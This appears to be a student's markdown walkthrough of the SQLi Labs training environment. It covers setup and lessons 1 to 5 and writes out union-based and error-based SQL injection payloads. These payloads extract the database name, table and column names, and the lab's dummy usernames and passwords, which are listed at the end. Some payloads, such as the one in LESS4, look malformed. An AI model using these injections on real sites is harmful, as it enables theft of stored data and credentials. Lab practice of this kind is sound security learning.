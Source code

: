 # ***SQLi Labs***

First we have to set up sqli labs
For that we can use the following commands
install apache2 webserver by > ````sudo apt install apache2````
install mysql by > ````sudo apt-get install mysql-srver````
install php7
git clone the repository of the lab and start all the services.

## ***LESS1***

The website says,Please input the ID as parameter with numeric value.
So we can input ```?id=1 or 2,3,4,5.....```
when we put ```'``` we get sql error 
thus we have a sql injection
we can comment ou the rest of the query by ```-- -``` or other comments in sql language.
We can dump contents

 ## ***payloads to dump***
 
 We can get version of the server by using ```/?id=-1' union select 1,version(),3--+```
 We can get databasename of the server by using ```/?id=-1' union select 1,database(),3--+  databasename = security```
 Going to the terminal and going to mysql. If we type ``show databases;`` it shows databases
Then We can see security which is our database name. We can find more details ``use security`` with this sql command go into the database.
 Using ``show tables;`` we can see the tables. For looking into the tables ``desc emails;`` and so on...
 
## ***LESS2***
The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- -``` doesn't work.
So we put ``'`` before the 1 and change it as ```?id='1'``` as payload.
Now we can comment it ```?id='1' -- - ```
Now we can dump contents using the payloads.

## ***payloads to dump***

To find column_name ```?id='-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+```
We have more payloads that can we do and get contents of database

## ***LESS3***

The website says,Please input the ID as parameter with numeric value.
This time when we input use ```?id=1'-- - nor ?id='1'-- -``` doesn't work.
So we put ``)`` before the ``'`` and change it as ```?id=1)'``` as payload.
No we can comment it ```?id=1)'-- -```
Now we can dump contents using payloads

## ***payloads to dump***
to find data ```/?id=-1') union select 1,group_concat(username),3 from users```
We have more payloads that can we do and get contents of database

## ***LESS4***

The website says,Please input the ID as parameter with numeric value.
We have to use ``') '`` as payload 
Now can comment it using ```?id=1' ")-- -```
Now we can dump contents using payloads

## ***payloads to dump ***

```?id=-1' ")-- - union select 1,group_concat(username),group_concat(password) from users```
We have more payloads that can we do and get contents of database.

## ***LESS5***

In this challenge we don't get any response form the databse directy to the browser
but we get the error when we break the query,so we can dump the database through the error
we can use ``rand(),floor(),count()`` to get error

## ***payloads to dump***

This will get database ```/?id=1' AND (select 1 from(select count(*),concat((select database()),floor(rand()*2))a from information_schema.tables group by a)b)--+```
to get table names ```/?id=1' AND (select 1 from(select count(*),concat((select table_name from information_schema.tables where table_schema=database() limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+```
to get columns ```/?id=1' AND (select 1 from(select count(*),concat((select column_name from information_schema.columns where table_name='emails' limit 0,1),floor(rand()*2))a from information_schema.tables group by a)b)--+```

# ***contents of database***

1.databasename = security
2.tables = emails,referers,uagents,users
3.columns = CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,USER,id,password,username
4.usernames = Dumb,Angelina,Dummy,secure,stupid,superman,batman,admin,admin1,admin2,admin3,dhakkan,admin4
password = Dumb,I-kill-you,p@ssword,crappy,stupidity,genious,mob!le,admin,admin1,admin2,admin3,dumbo,admin4
